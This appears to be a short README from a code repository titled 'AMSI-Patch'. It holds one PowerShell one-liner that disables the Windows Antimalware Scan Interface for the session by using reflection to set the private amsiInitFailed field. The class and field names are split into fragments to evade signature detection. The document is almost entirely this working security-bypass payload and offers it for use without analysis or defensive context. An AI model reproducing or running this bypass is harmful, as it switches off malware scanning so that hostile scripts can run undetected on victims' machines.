 # AMSI-Patch

```$x = 'si'; $c = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $c, $x)); $z = $Ref.GetField(('am{0}InitFailed' -f $x),'NonPublic,Static'); $z.("Set" + "Value")($null,$true)```ps1
